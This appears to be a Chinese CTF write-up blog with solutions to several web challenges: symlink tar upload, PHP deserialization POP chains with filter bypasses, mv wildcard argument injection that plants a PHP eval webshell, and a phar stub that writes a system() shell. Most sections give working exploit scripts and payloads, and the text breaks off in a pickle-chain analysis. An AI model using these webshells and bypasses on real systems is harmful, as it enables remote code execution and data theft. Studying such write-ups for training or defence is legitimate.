访问后发现会返回当前渲染的目录路径，那我们尝试改路径为根目录，然后point传入flag就可以把flag的内容渲染进去了

```http
/operate?username=app&password=jinja_loader.searchpath&confirm_password=/

然后渲染flag
/impression?point=flag
```

# flag？我就借走了（复现）

## #软连接

一个文件解压的题，但是没啥思路，也没什么线索

复现：

跟CISCN2023的软连接题目一样，这里也是用符号软连接去打的，但是这个题目明显有点生搬硬套了，一点线索都没有

```bash
ln -s /flag link.txt
tar -cvf link.tar link.txt
```

上传这个tar文件后访问就能出来了

# Bypass

## #RCE

```php
<?php
class FLAG
{
    private $a;
    protected $b;
    public function __construct($a, $b)
        {
            $this->a = $a;
            $this->b = $b;
            $this->check($a,$b);
            eval($a.$b);
        }
    public function __destruct(){
            $a = (string)$this->a;
            $b = (string)$this->b;
            if ($this->check($a,$b)){
                $a("", $b);
            }
            else{
                echo "Try again!";
            }
        }
    private function check($a, $b) {
        $blocked_a = ['eval', 'dl', 'ls', 'p', 'escape', 'er', 'str', 'cat', 'flag', 'file', 'ay', 'or', 'ftp', 'dict', '\.\.', 'h', 'w', 'exec', 's', 'open'];
        $blocked_b = ['find', 'filter', 'c', 'pa', 'proc', 'dir', 'regexp', 'n', 'alter', 'load', 'grep', 'o', 'file', 't', 'w', 'insert', 'sort', 'h', 'sy', '\.\.', 'array', 'sh', 'touch', 'e', 'php', 'f'];

        $pattern_a = '/' . implode('|', array_map('preg_quote', $blocked_a, ['/'])) . '/i';
        $pattern_b = '/' . implode('|', array_map('preg_quote', $blocked_b, ['/'])) . '/i';

        if (preg_match($pattern_a, $a) || preg_match($pattern_b, $b)) {
            return false;
        }
        return true;
    }  
}


if (isset($_GET['exp'])) {
    $p = unserialize($_GET['exp']);
    var_dump($p);
}else{
    highlight_file("index.php");
}
```

check有一个黑名单，然后就是`$a("", $b);`

这个之前做题接触过，https://wanth3f1ag.top/2024/11/25/BUGKU-web/?highlight=%24a%28%22%22%2C+%24b%29#unserialize-Noteasy



知道怎么绕过之后我们看看黑名单check函数

```php
    private function check($a, $b) {
        $blocked_a = ['eval', 'dl', 'ls', 'p', 'escape', 'er', 'str', 'cat', 'flag', 'file', 'ay', 'or', 'ftp', 'dict', '\.\.', 'h', 'w', 'exec', 's', 'open'];
        $blocked_b = ['find', 'filter', 'c', 'pa', 'proc', 'dir', 'regexp', 'n', 'alter', 'load', 'grep', 'o', 'file', 't', 'w', 'insert', 'sort', 'h', 'sy', '\.\.', 'array', 'sh', 'touch', 'e', 'php', 'f'];

        $pattern_a = '/' . implode('|', array_map('preg_quote', $blocked_a, ['/'])) . '/i';
        $pattern_b = '/' . implode('|', array_map('preg_quote', $blocked_b, ['/'])) . '/i';

        if (preg_match($pattern_a, $a) || preg_match($pattern_b, $b)) {
            return false;
        }
        return true;
    } 
```

既然是create_function的话其实就是跟eval没啥区别，$b参数的值就是需要执行的代码，这里过滤太多了，直接打自增吧

```php
<?php
class FLAG
{
    public $a = "create_function" ;
    public $b = ";}\$_=[];\$_=''.\$_;\$_=\$_['!'==' '];\$___=\$_;\$__=\$_;\$__++;\$__++;\$__++;\$__++;\$__++;\$__++;\$__++;\$__++;\$__++;\$__++;\$__++;\$__++;\$__++;\$__++;\$__++;\$___=\$__;\$__=\$_;\$__++;\$__++;\$__++;\$__++;\$__++;\$__++;\$__++;\$___.=\$__;\$__++;\$__++;\$__++;\$__++;\$__++;\$__++;\$__++;\$__++;\$___.=\$__;\$__=\$_;\$__++;\$__++;\$__++;\$__++;\$__++;\$__++;\$__++;\$__++;\$___.=\$__;\$__++;\$__++;\$__++;\$__++;\$__++;\$___.=\$__;\$__=\$_;\$__++;\$__++;\$__++;\$__++;\$__++;\$___.=\$__;\$__++;\$__++;\$__++;\$__++;\$__++;\$__++;\$__++;\$__++;\$__++;\$___.=\$__;\$___();
    /*";
    public function __destruct(){
        $a = (string)$this->a;
        $b = (string)$this->b;
        if ($this->check($a,$b)){
            $a("", $b);
        }
        else{
            echo "Try again!";
        }
    }
    private function check($a, $b) {
        $blocked_a = ['eval', 'dl', 'ls', 'p', 'escape', 'er', 'str', 'cat', 'flag', 'file', 'ay', 'or', 'ftp', 'dict', '\.\.', 'h', 'w', 'exec', 's', 'open'];
        $blocked_b = ['find', 'filter', 'c', 'pa', 'proc', 'dir', 'regexp', 'n', 'alter', 'load', 'grep', 'o', 'file', 't', 'w', 'insert', 'sort', 'h', 'sy', '\.\.', 'array', 'sh', 'touch', 'e', 'php', 'f'];

        $pattern_a = '/' . implode('|', array_map('preg_quote', $blocked_a, ['/'])) . '/i';
        $pattern_b = '/' . implode('|', array_map('preg_quote', $blocked_b, ['/'])) . '/i';

        if (preg_match($pattern_a, $a) || preg_match($pattern_b, $b)) {
            return false;
        }
        return true;
    }
}
$a = new FLAG();
unserialize(serialize($a));
```

本地打通了但是远程没打通，不知道为什么

后面发现是我本地改了一下属性的修饰符

poc

```php
<?php
class FLAG
{
    private $a = "create_function" ;
    protected $b = ";}\$_=[];\$_=''.\$_;\$_=\$_['!'==' '];\$___=\$_;\$__=\$_;\$__++;\$__++;\$__++;\$__++;\$__++;\$__++;\$__++;\$__++;\$__++;\$__++;\$__++;\$__++;\$__++;\$__++;\$__++;\$___=\$__;\$__=\$_;\$__++;\$__++;\$__++;\$__++;\$__++;\$__++;\$__++;\$___.=\$__;\$__++;\$__++;\$__++;\$__++;\$__++;\$__++;\$__++;\$__++;\$___.=\$__;\$__=\$_;\$__++;\$__++;\$__++;\$__++;\$__++;\$__++;\$__++;\$__++;\$___.=\$__;\$__++;\$__++;\$__++;\$__++;\$__++;\$___.=\$__;\$__=\$_;\$__++;\$__++;\$__++;\$__++;\$__++;\$___.=\$__;\$__++;\$__++;\$__++;\$__++;\$__++;\$__++;\$__++;\$__++;\$__++;\$___.=\$__;\$___();
    /*";
}
$a = new FLAG();
echo urlencode(serialize($a));
```



能打通那直接构造就行了，但是不知道为啥我构造ASSERT和EVAL都没成功

## 预期解

使⽤ var_dump 进⾏回显，使⽤反引号执⾏shell命令，⽤通配符代替

```php
<?php
class FLAG
{
    private $a = "create_function" ;
    protected $b=";}var_dump(`/usr/b??/?l /?lag`);/*";
    //protected $b="};var_dump(`xxd /???g`);#";
}
$a = new FLAG();
echo urlencode(serialize($a));
```

# ezpop（复现）

## #PHP反序列化

```php
<?php
error_reporting(0);

class begin {
    public $var1;
    public $var2;

    function __construct($a)
    {
        $this->var1 = $a;
    }
    function __destruct() {
        echo $this->var1;
    }

    public function __toString() {
        $newFunc = $this->var2;
        return $newFunc();
    }
}


class starlord {
    public $var4;
    public $var5;
    public $arg1;

    public function __call($arg1, $arg2) {
        $function = $this->var4;
        return $function();
    }

    public function __get($arg1) {
        $this->var5->ll2('b2');
    }
}

class anna {
    public $var6;
    public $var7;

    public function __toString() {
        $long = @$this->var6->add();
        return $long;
    }

    public function __set($arg1, $arg2) {
        if ($this->var7->tt2) {
            echo "yamada yamada";
        }
    }
}

class eenndd {
    public $command;

    public function __get($arg1) {
        if (preg_match("/flag|system|tail|more|less|php|tac|cat|sort|shell|nl|sed|awk| /i", $this->command)){
            echo "nonono";
        }else {
            eval($this->command);
        }
    }
}

class flaag {
    public $var10;
    public $var11="1145141919810";

    public function __invoke() {
        if (md5(md5($this->var11)) == 666) {
            return $this->var10->hey;
        }
    }
}


if (isset($_POST['ISCTF'])) {
    unserialize($_POST["ISCTF"]);
}else {
    highlight_file(__FILE__);
}
```

先写链子

```php
begin::__destruct()->begin::__toString()->flaag::__invoke()->eenndd::__get()->eval()
```

在`flaag::__invoke()`中有一个双重md5的弱比较，需要做一个碰撞

用md5碰撞脚本去碰一下

```python
# -*- coding: utf-8 -*-
# 运⾏: python py文件 需要碰撞的md5值 开始匹配的位置
# python md5.py "666" 0
import multiprocessing
import hashlib
import random
import string
import sys
CHARS = string.letters + string.digits
def cmp_md5(substr, stop_event, str_len,start=0, size=20):
    global CHARS
    while not stop_event.is_set():
        rnds = ''.join(random.choice(CHARS) for _ in range(size))
        md5 = hashlib.md5(rnds)
        value = md5.hexdigest()
        if value[start: start+str_len] == substr:
            # print rnds
            # stop_event.set()
            #碰撞双md5
            md5 = hashlib.md5(value)
            if md5.hexdigest()[start: start+str_len] == substr:
                print rnds+ "=>" + value+"=>"+ md5.hexdigest()  + "\n"
                stop_event.set()

if __name__ == '__main__':
    substr = sys.argv[1].strip()
    start_pos = int(sys.argv[2]) if len(sys.argv) > 1 else 0
    str_len = len(substr)
    cpus = multiprocessing.cpu_count()
    stop_event = multiprocessing.Event()
    processes = [multiprocessing.Process(target=cmp_md5, args=(substr,
                                         stop_event, str_len, start_pos))
                 for i in range(cpus)]
    for p in processes:
        p.start()
    for p in processes:
        p.join()
```



## 最终的poc

```php
$a = new begin();
$a -> var1 = new begin();
$a -> var1 -> var2 = new flaag();
$a -> var1 -> var2 -> var11 = "rSYwGEnSLmJWWqkEARJp";
$a -> var1 -> var2 -> var10 = new eenndd();
$a -> var1 -> var2 -> var10 -> command = "passthru('ta``c\${IFS}/fl*');";
echo urlencode(serialize($a));
```

# mv_upload

## #mv参数注入+文件上传

扫目录扫到一个`/index.php~`

```php
<?php
$uploadDir = '/tmp/upload/'; // 临时目录
$targetDir = '/var/www/html/upload/'; // 存储目录

$blacklist = [
    'php', 'phtml', 'php3', 'php4', 'php5', 'php7', 'phps', 'pht','jsp', 'jspa', 'jspx', 'jsw', 'jsv', 'jspf', 'jtml','asp', 'aspx', 'ascx', 'ashx', 'asmx', 'cer', 'aSp', 'aSpx', 'cEr', 'pHp','shtml', 'shtm', 'stm','pl', 'cgi', 'exe', 'bat', 'sh', 'py', 'rb', 'scgi','htaccess', 'htpasswd', "php2", "html", "htm", "asa", "asax",  "swf","ini"
];

$message = '';
$filesInTmp = [];

// 创建目标目录
if (!is_dir($targetDir)) {
    mkdir($targetDir, 0755, true);
}

if (!is_dir($uploadDir)) {
    mkdir($uploadDir, 0755, true);
}

// 上传临时目录
if (isset($_POST['upload']) && !empty($_FILES['files']['name'][0])) {
    $uploadedFiles = $_FILES['files'];
    foreach ($uploadedFiles['name'] as $index => $filename) {
        if ($uploadedFiles['error'][$index] !== UPLOAD_ERR_OK) {
            $message .= "文件 {$filename} 上传失败。<br>";
            continue;
        }

        $tmpName = $uploadedFiles['tmp_name'][$index];

        $filename = trim(basename($filename));
        if ($filename === '') {
            $message .= "文件名无效，跳过。<br>";
            continue;
        }

        $fileParts = pathinfo($filename);
        $extension = isset($fileParts['extension']) ? strtolower($fileParts['extension']) : '';

        $extension = trim($extension, '.');

        if (in_array($extension, $blacklist)) {
            $message .= "文件 {$filename} 因类型不安全（.{$extension}）被拒绝。<br>";
            continue;
        }

        $destination = $uploadDir . $filename;

        if (move_uploaded_file($tmpName, $destination)) {
            $message .= "文件 {$filename} 已上传至 $uploadDir$filename 。<br>";
        } else {
            $message .= "文件 {$filename} 移动失败。<br>";
        }
    }
}

// 获取临时目录中的所有文件
if (is_dir($uploadDir)) {
    $handle = opendir($uploadDir);
    if ($handle) {
        while (($file = readdir($handle)) !== false) {
            if (is_file($uploadDir . $file)) {
                $filesInTmp[] = $file;
            }
        }
        closedir($handle);
    }
}

// 处理确认上传完毕（移动文件）
if (isset($_POST['confirm_move'])) {
    if (empty($filesInTmp)) {
        $message .= "没有可移动的文件。<br>";
    } else {
        $output = [];
        $returnCode = 0;
        exec("cd $uploadDir ; mv * $targetDir 2>&1", $output, $returnCode);
        if ($returnCode === 0) {
            foreach ($filesInTmp as $file) {
                $message .= "已移动文件: {$file} 至$targetDir$file<br>";
            }
        } else {
            $message .= "移动文件失败: " .implode(', ', $output)."<br>";
        }
    }
}
```

黑名单里面差不多都把恶意文件后缀名都给过滤了，直接传马子的话是不太现实了

关注到最后的移动文件部分

```php
// 处理确认上传完毕（移动文件）
if (isset($_POST['confirm_move'])) {
    if (empty($filesInTmp)) {
        $message .= "没有可移动的文件。<br>";
    } else {
        $output = [];
        $returnCode = 0;
        exec("cd $uploadDir ; mv * $targetDir 2>&1", $output, $returnCode);
        if ($returnCode === 0) {
            foreach ($filesInTmp as $file) {
                $message .= "已移动文件: {$file} 至$targetDir$file<br>";
            }
        } else {
            $message .= "移动文件失败: " .implode(', ', $output)."<br>";
        }
    }
}
```

这里通过exec函数执行了几条shell命令，从`/tmp/upload/`目录调用`mv *`将当前目录的文件全部move到`/var/www/html/upload/`，但是`mv *`这种带通配符的用法容易发生参数注入问题

mv会将所有的`-`开头的参数识别成mv的选项

例如临时目录下有这些文件

```php
/tmp/upload/
├── -t
├── /etc/passwd
└── normal.txt
```

执行命令的时候

```php
cd /tmp/upload/ ; mv * /var/www/html/upload/
```

但是实际展开的时候就是

```php
cd /tmp/upload/ ; mv -t /etc/passwd normal.txt /var/www/html/upload/
```


我们看看mv的参数有哪些

```bash
root@VM-16-12-ubuntu:/# mv --help
Usage: mv [OPTION]... [-T] SOURCE DEST
  or:  mv [OPTION]... SOURCE... DIRECTORY
  or:  mv [OPTION]... -t DIRECTORY SOURCE...
Rename SOURCE to DEST, or move SOURCE(s) to DIRECTORY.

Mandatory arguments to long options are mandatory for short options too.
      --backup[=CONTROL]       make a backup of each existing destination file
  -b                           like --backup but does not accept an argument
  -f, --force                  do not prompt before overwriting
  -i, --interactive            prompt before overwrite
  -n, --no-clobber             do not overwrite an existing file
If you specify more than one of -i, -f, -n, only the final one takes effect.
      --strip-trailing-slashes  remove any trailing slashes from each SOURCE
                                 argument
  -S, --suffix=SUFFIX          override the usual backup suffix
  -t, --target-directory=DIRECTORY  move all SOURCE arguments into DIRECTORY
  -T, --no-target-directory    treat DEST as a normal file
  -u, --update                 move only when the SOURCE file is newer
                                 than the destination file or when the
                                 destination file is missing
  -v, --verbose                explain what is being done
  -Z, --context                set SELinux security context of destination
                                 file to default type
      --help     display this help and exit
      --version  output version information and exit

The backup suffix is '~', unless set with --suffix or SIMPLE_BACKUP_SUFFIX.
The version control method may be selected via the --backup option or through
the VERSION_CONTROL environment variable.  Here are the values:

  none, off       never make backups (even if --backup is given)
  numbered, t     make numbered backups
  existing, nil   numbered if numbered backups exist, simple otherwise
  simple, never   always make simple backups

GNU coreutils online help: <https://www.gnu.org/software/coreutils/>
Full documentation <https://www.gnu.org/software/coreutils/mv>
or available locally via: info '(coreutils) mv invocation'
```

`-b`参数会在移动操作之前创建一个带`~`的备份文件，例如当前目录下有一个index.php文件，但是如果我们从别的目录mv过来一个同名文件，那么原来的index.php就会改名为`index.php~`

同时借助`--suffix`参数可以指定任意文件后缀

那么我们这里的解题思路就可以是

1. 上传一个恶意木马文件`shell.`并触发移动
2. 再上传 `shell.`，`-b`，`--suffix=php`并触发移动，此时就会触发参数注入生成shell.php
3. 利用恶意木马文件进行RCE

最终脚本

```python
import requests

url = "http://challenge.imxbt.cn:30173"

def upload_file(filename, content):
    upload_files = {
        "files[]" : (filename, content, "application/octet-stream"),
    }
    data = {
        "upload" : "1",
    }
    r1 = requests.post(url = url, files = upload_files, data = data)
    return r1.text

def move_file():
    data = {
        "confirm_move" : "1",
    }
    r2 = requests.post(url = url, data = data)
    return r2.text

if __name__ == "__main__":
    upload_file("shell.",b"<?php @eval($_POST['cmd']);?>")
    move_file()

    upload_file("shell.",b"")
    upload_file("-b",b"")
    upload_file("--suffix=php",b"")
    move_file()

    res = requests.post(url+"/upload/shell.php", data={"cmd": "system('cat /flag');"})
    print(res.text)
```

# include_upload

## #phar文件上传

在源代码里面找到一个提示

```html
<!-- 我把include.php删了-->
```

还是选择相信一手，访问include.php发现确实是存在的

```php
<?php
highlight_file(__FILE__);
error_reporting(0);
$file = $_GET['file'];
if(isset($file) && strtolower(substr($file, -4)) == ".png"){
    include'./upload/' . basename($_GET['file']);
    exit;
}
?>
我还以为你真信
我还以为你真信
```

上传了一个png文件后发现一直绕不过去那个Waf，对文件内容有过滤了，过滤了`<?`和`php`

既然对文件内容有过滤的话，其实还有一个方法就是打phar文件上传

```php
<?php
$phar = new Phar('poc.phar');
$phar->startBuffering();
$stub = <<<'STUB'
<?php
system('echo "<?php system(\$_GET[1]); ?>" > 1.php');
__HALT_COMPILER();
?>
STUB;

$phar->setStub($stub);
$phar->addFromString('test.txt', 'test');
$phar->stopBuffering();

$fp = gzopen("poc.phar.gz", 'w9'); #压缩为gz绕过过滤
gzwrite($fp, file_get_contents("poc.phar"));
gzclose($fp);
?>
```

修改后缀名后上传并利用include触发phar解析，随后访问1.php并进行命令执行就行了

# 双生序列

## #pickle反序列化+php反序列化写入文件

## 源码分析

index.php

```php
<?php
require_once "config.php";
require_once "classes.php";

$shark = "blueshark:";

if ($_SERVER["REQUEST_METHOD"] == "POST") {
    $s = $_POST["s"] ?? "喵喵喵?";

    if (str_starts_with($s, $shark)) {
        $ss = substr($s, strlen($shark));
        $p = $db->prepare("INSERT INTO notes (content) VALUES (?)");
        $p->execute([$ss]);

        echo "save sucess";
        exit(0);
    }
    else {
        echo "喵喵喵?";
        exit(1);
    }
}

$q = $db->query("SELECT id, content FROM notes ORDER BY id DESC LIMIT 10");
$rows = $q->fetchAll(PDO::FETCH_ASSOC);
?>
```

少了一个反序列化的操作，但其实跟之前的没啥区别

api.php

```php
<?php
require_once "config.php";
require_once "classes.php";

$cat = new Cat();

$id = $_GET["id"] ?? "喵喵喵?";

if (!is_numeric($id)) {
    $cat->OwO();
    exit(1);
}

$s = $db->prepare("SELECT content FROM notes WHERE id = ?");
$s->execute([$id]);

$row = $s->fetch(PDO::FETCH_ASSOC);

if (!$row) {
    $cat->OwO();
    exit(1);
}

$allowed = ["Writer", "Shark", "Bridge"];
$o = @unserialize($row["content"], ["allowed_classes" => $allowed]);

if (!($o instanceof Bridge)) {
    $cat->OwO();
    exit(1);
}

$r = $o->fetch();
echo nl2br(htmlspecialchars($r));
?>


```

有一个白名单并且序列化字符串中必须有Bridge

run.php

```php
<?php
require_once "./config.php";
require_once "./classes.php";

$action = $_GET["action"] ?? "喵喵喵?";

if ($action !== "run") {
    echo "喵喵喵?";
    exit(1);
}

$binfile = "/tmp/ssxl/run.bin";

if (!file_exists($binfile)) {
    echo "喵喵喵?";
    exit(1);
}

$data = @file_get_contents($binfile);
if ($data === false) {
    echo "喵喵喵?";
    exit(1);
}

$allowed = ["Pytools"];
$exec = @unserialize($data, ["allowed_classes" => $allowed]);

if (!is_object($exec)) {
    echo "喵喵喵?";
    exit(1);
}
if (get_class($exec) !== "Pytools") {
    echo "喵喵喵?";
    exit(1);
}

if (method_exists($exec, "__call")) {
    ob_start();
    try {
        $ret = $exec->blueshark();
        $out = ob_get_clean();

        if ($out !== "") {
            echo $out;
        }
        else if ($ret !== null) {
            echo $ret;
        }
        else {
            echo "喵喵喵?";
        }
    }
    catch (Throwable $e) {
        echo "喵喵喵?";
        ob_end_clean();
    }

    exit(0);
}
?>
```

还有一个反序列化操作，但是这里的话只能反序列化`Pytools`类

```php
if (method_exists($exec, "__call")) {
    ob_start();
    try {
        $ret = $exec->blueshark();
        $out = ob_get_clean();

        if ($out !== "") {
            echo $out;
        }
        else if ($ret !== null) {
            echo $ret;
        }
        else {
            echo "喵喵喵?";
        }
    }
    catch (Throwable $e) {
        echo "喵喵喵?";
        ob_end_clean();
    }

    exit(0);
}
```

如果反序列化出来的对象中有定义`__call`方法，就会主动触发他，并主动分别输出`__call`里的echo以及return返回值

classes.php\Pytools

```php
class Pytools extends Cat {
    public $log = False;
    private $logbuf = "看看你都干了什么好事喵！<br/>";

    public function run() {
        $cmd = "python3 /var/www/html/pytools.py";
        $out = @shell_exec($cmd . " 2>&1");
        $this->log = $out;
        return $out;
    }

    public function __call($name, $args) {
        return $this->run();
    }

    public function __destruct() {
        if ($this->logbuf) {
            echo $this->logbuf;
            return $this->logbuf;
        }
    }

    public function get_info() {
        if ($this->log) {
            $this->logbuf = $this->logbuf . "\n" . $this->log;
        }
    }
}
```

其实就是会用python解释器去执行pytools.py

至于pytools.py我们暂时不看，先看看如何将序列化字符串写入`/tmp/ssxl/run.bin`

classes.php\Shark

```php
class Shark {
    public $ser = "";

    public function __construct($s="") {
        $this->ser = $s;
    }

    public function __toString() {
        $this->apply();
        return "喵喵喵!";
    }

    private function apply() {
        if ($this->ser === "") {
            return;
        }

        $file = "/tmp/ssxl/run.bin";
        @file_put_contents($file, $this->ser);
    }

    public function fetch() {
        return "喵喵喵!";
    }
}
```

看看在哪能触发`__toString`

classes.php\Bridge

 ```php
 class Bridge {
     public $writer;   
     public $shark;
 
     public function __construct($w, $s) {
         if (!($w instanceof Writer) || !($s instanceof Shark)) {
             echo "喵喵喵?";
             exit(1);
         }
         $this->writer = $w;
         $this->shark = $s;
     }
 
     public function __get($name) {
         if ($name === "write") {
             if (!($this->writer instanceof Writer)){
                 return "喵喵喵?";
             }
             
             $this->writer->fetch();
             return $this->shark;
         }
     }
 
     public function __isset($name) {
         if ($name === "write") {
             return
                 ($this->writer instanceof Writer) &&
                 ($this->shark instanceof Shark);
         }
         return false;
     }
 
     public function __set($name, $value) {
         if ($name === "write") {
             $this->writer = $value;
         }
         else if ($name === "shark") {
             $this->shark = $value;
         }
     }
 
     public function __unset($name) {
         if ($name === "write") {
             $this->writer = null;
         }
         else if ($name === "shark") {
             $this->shark = null;
         }
     }
 
     public function fetch() {
         $next = $this->write;
         if ($next instanceof Shark) {
             return $next;
         }
         return "喵喵喵!";
     }
 }
 ```

在fetch函数中就可以看到大致的意思了，会检测next是否是一个Shark对象



并且结合api.php中的这两个操作可以知道这个链子该怎么写了

因为调用fetch函数后如果`$next`是一个Shark对象就会返回赋值给`$r`，而最后的echo `$r`的操作则会触发`__toString`方法

写一个poc

## 初段POC

```php
<?php
class Cat {
}

class Writer {
    public $b64data = "";
    private $binfile = "/tmp/ssxl/write.bin";
    private $metafile = "/tmp/ssxl/write.meta";
    private $secret = "kaqikaqi";
    public $init = 'init';
}

class Shark {
    public $ser = "";
}

class Pytools extends Cat {
    public $log = False;
    private $logbuf = "成功写入<br/>";
}

class Bridge {
    public $writer;
    public $shark;
}
$b = serialize(new Pytools());
$a = new Bridge();
$a -> writer = new Writer();
$a -> shark = new Shark();
$a -> shark -> ser = $b;
echo urlencode(serialize($a));
```

但是`$this->write`在Bridge类中是一个不存在的属性，会触发`__get()`



在`__get`中有一个`\Writer::fetch()`方法的调用，跟进看一下

classes.php\Writer

```php
class Writer {
    public $b64data = "";
    private $binfile = "/tmp/ssxl/write.bin";
    private $metafile = "/tmp/ssxl/write.meta";
    private $secret = "kaqikaqi";
    public $init = '喵喵喵?';

    public function __construct($b64data="") {
        $this->b64data = $b64data;
    }

    public function __wakeup() {
        $this->{$this->init}();
    }

    private function init() {
        $dir = dirname($this->binfile);
        if (!is_dir($dir)) {
            @mkdir($dir, 0700, true);
        }
    }

    private function write_all() {
        if ($this->b64data === "") {
            return;
        }

        $raw = base64_decode($this->b64data);
        if ($raw === false) {
            return;
        }

        @file_put_contents($this->binfile, $raw);

        $sig = hash_hmac("sha256", $raw, $this->secret);
        $meta = json_encode([
            "sig" => $sig,
            "ts"  => time(),
        ]);
        @file_put_contents($this->metafile, $meta);
    }

    public function fetch() {
        $this->write_all();
        return "喵喵喵!";
    }
}
```

又是一个写文件的操作，估计跟python有关了，我们看看python代码

pytools.py

有点长，拆开看吧

```python
class RCE:
    def __reduce__(self):
        return (os.system, ("cat /etc/passwd",))
```

一个带`__reduce__`方法的恶意RCE类

```python
class Set:
    def __init__(self):
        self.secret = b""
        self.payload = b""

    def __setstate__(self, state):
        self.secret = state.get("secret", b"")
        self.payload = state.get("payload", b"")
```

Set类，初始化了一个secret和payload，这里有一个pickle反序列化的钩子函数`__setstate__`，在反序列化创建对象的时候不会调用`__init__`而是调用`__setstate__`

```python
class Unpickler(pickle.Unpickler):
    allows = {
        ("__main__", "Set")
    }

    def find_class(self, module, name):
        if (module, name) in self.allows:
            return super().find_class(module, name)
        raise pickle.UnpicklingError("喵喵喵?")
```

这个类继承自Unpickler，只允许反序列化`__main__.Set`类，并且重写了类加载函数，只有白名单中的类才能被反序列化

```python
class ssxl:
    def __init__(self):
        self.ROOT = "/tmp/ssxl"
        self.BIN = f"{self.ROOT}/write.bin"
        self.META = f"{self.ROOT}/write.meta"
        self.OUTS = f"{self.ROOT}/outs.txt"
        self.SECRET = b""
        self.jmp = True   # 你能设置这个吗😋

    def _set_secret(self, data):
        bio = io.BytesIO(data)
        obj = Unpickler(bio).load()
        
        if not isinstance(obj, Set):
            Games().gen_redirect()
            return "喵喵喵?"

        if isinstance(getattr(obj, "secret", b""), (bytes, bytearray)):
            self.SECRET = obj.secret

        return obj

    def init(self):
        r = 0
